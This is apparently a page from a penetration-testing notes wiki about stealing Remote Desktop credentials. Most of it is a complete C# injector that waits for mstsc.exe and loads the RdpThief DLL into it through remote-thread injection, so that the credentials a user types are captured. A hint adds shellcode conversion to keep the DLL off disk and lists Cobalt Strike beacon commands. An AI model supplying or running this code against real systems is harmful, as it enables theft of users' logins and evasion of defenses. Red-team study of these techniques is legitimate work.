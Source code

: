 ```yaml
---
description: Remote Desktop Protocol
---
```


# RDP




## RdpThief

* [https://github.com/0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)
* [https://github.com/passthehashbrowns/SharpRDPThief](https://github.com/passthehashbrowns/SharpRDPThief)
* [https://github.com/proxytype/RDP-THIEF](https://github.com/proxytype/RDP-THIEF)

Some custom code that waits for `mstsc.exe` to be run and loads the malicious library into it:

{% code title="RdpThiefInjector.cs" %}
```csharp
using System;
using System.Threading;
using System.Diagnostics;
using System.Collections.Generic;
using System.Runtime.InteropServices;
using System.Text;

namespace RdpThiefInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            string dllName = @"C:\Temp\RdpThief.dll";
            HashSet<int> PIDs = new HashSet<int>();
            Console.WriteLine("[*] Joined the hunt for mstsc.exe processes...");
            while (true)
            {
                Process[] mstscProc = Process.GetProcessesByName("mstsc");
                if (mstscProc.Length > 0)
                {
                    for (int i = 0; i < mstscProc.Length; i++)
                    {
                        int processId = mstscProc[i].Id;
                        if (!PIDs.Contains(processId))
                        {
                            Console.WriteLine($"[+] Detected non-hooked process with PID={processId}");
                            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                            IntPtr dllAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                            IntPtr outSize;
                            bool res = WriteProcessMemory(hProcess, dllAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
                            if (res)
                            {
                                Console.WriteLine("[+] WriteProcessMemory succeeded!");
                            }
                            else
                            {
                                Console.WriteLine("[-] WriteProcessMemory failed :(");
                            }
                            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
                            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllAddress, 0, IntPtr.Zero);
                            if (hThread != null)
                            {
                                Console.WriteLine("[+] CreateRemoteThread succeeded!");
                                Console.WriteLine($"[*] Process {processId} is now hooked, look for creds in \"{System.IO.Path.GetTempPath()}\"");
                                PIDs.Add(processId);
                            }
                            else
                            {
                                Console.WriteLine("[-] CreateRemoteThread failed :(");
                            }
                        }
                    }
                }
                Thread.Sleep(5000);
            }
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
The DLL can be converted to shellcode with [ConvertToShellcode.py](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py) (sRDI approach) and then be [injected](/pentest/infrastructure/ad/av-edr-evasion/code-injection/process-injectors#classic-process-injection) into the target process. That would help to avoid dropping the DLL to disk:

```
beacon> rdpthief_enable
beacon> rdpthief_dump
beacon> rdpthief_disable
```
{% endhint %}




## Abusing CredSSP / TSPKG

* [https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/)
